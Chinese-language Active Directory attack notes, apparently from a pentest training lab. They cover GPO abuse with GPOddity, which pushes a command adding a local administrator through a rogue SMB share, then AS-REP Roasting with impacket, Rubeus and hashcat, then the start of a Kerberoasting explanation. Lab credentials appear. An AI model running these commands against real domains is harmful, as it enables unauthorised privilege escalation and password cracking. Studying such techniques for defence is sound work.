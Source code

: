 >需要建立在有對 GPO 的寫入權上面，把惡意命令透過 GPO 部署到網域主機上，其實原理是寫假的GPO檔案，透過file share讓 AD抓，再派送下去。
- GPOddity : https://github.com/synacktiv/GPOddity
``` bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student827' --password 'WzeC58hNKMjQdqpR' --command 'net localgroup administrators studentx /add' --rogue-smbserver-ip '172.16.100.27' --rogue-smbserver-share 'stdx-gp' --dc-ip '172.16.2.1' --smb-mode none
```
- `sudo python3 gpoddity.py`: 以 root 權限執行 GPOddity 的 Python 腳本（需要相應權限與環境）。
- `--gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147'` : 要操作的 **GPO 的 GUID**（要修改哪個 Group Policy Object）。GPOddity 會嘗試對該 GPO 寫入或注入惡意內容。
- `--domain 'dollarcorp.moneycorp.local'`: 目標 AD 網域名稱（用來定位 DC、組織單位與 GPO 路徑等）。
- `--username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ'` :用來執行操作的帳號／密碼。GPOddity 會用這個身分嘗試對 GPO 做修改——若該帳號在 GPO 的 ACL 上具有 write 權限（或能透過 relay/其他方式取得足夠權限），則可成功修改 GPO。
- `--command 'net localgroup administrators studentx /add'`: 要放進 GPO（例如 startup script、scheduled task 或其它可執行载入點）的**命令**。目的是在受 GPO 影響的主機上執行該命令，將 `studentx` 加入本機 Administrators。
- `--rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'stdx-gp'` : **惡意/rogue SMB 伺服器位址與分享名稱**。GPOddity 會把某些 GPO 檔案或 payload 指向這個 UNC 路徑（例如 `\\172.16.100.x\stdx-gp\...`），或在攻擊流程中以此作為 payload-host。這常在 GPO/Group Policy 文件被建立或引用時被利用。
- `--dc-ip '172.16.2.1'`: 指定要對哪台 **Domain Controller (DC)** 發出 LDAP/SMB 等操作（即目標 DC 的 IP）。GPO 的修改最後要寫入到 DC 上的 Sysvol/AD 物件，通常會指向 DC。
- `--smb-mode none`  : 指示 GPOddity **不要在本機啟動 SMB server**（也就是不在本地提供 rogue SMB；你可能已經有另一個 SMB host 可用，或不想開本地 SMB listener）。（工具參數在 repo activity/README 有說明）。

因為smbserver開再 stdx-gp，所以要設定file share
``` bash
mkdir /mnt/c/AD/Tools/stdx-gp
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/stdx-gp
```
``` bash
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full
icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```
## AS-REP Roasting
- impacket-GetNPUsers
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
- impacket-GetNPUsers(不用密碼)
```
impacket-GetNPUsers -no-pass -usersfile real_user.txt -dc-ip 10.10.207.146 THM-AD/
```
- Rubeus
```
.\Rubeus.exe asreproast /nowrap
```
- PowerView
```
Get-DomainUser -PreauthNotRequired
```
- hashcat -- 用於爆破產出的密碼
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
## Kerberoasting
>[!NOTE]
>1. Kerberos 的運作
>	- 在 AD 中，每個服務 (像 SQL、IIS、Exchange) 通常有個「服務帳號」(Service Account)，它的 SPN（Service Principal Name）會在 AD 註冊。
>	- 使用者要連線服務時，向 KDC (Key Distribution Center) 請求一張 服務票證 (TGS, Ticket Granting Service ticket)，這張票證是用「服務帳號的 NTLM hash」加密的。
>2. Kerberoasting 的想法
>	- 任何網域使用者都可以去要別的服務的 TGS（因為 AD 預設允許）。
>	- 拿到 TGS 後，票證裡面那段是用服務帳號的密碼雜湊加密的。
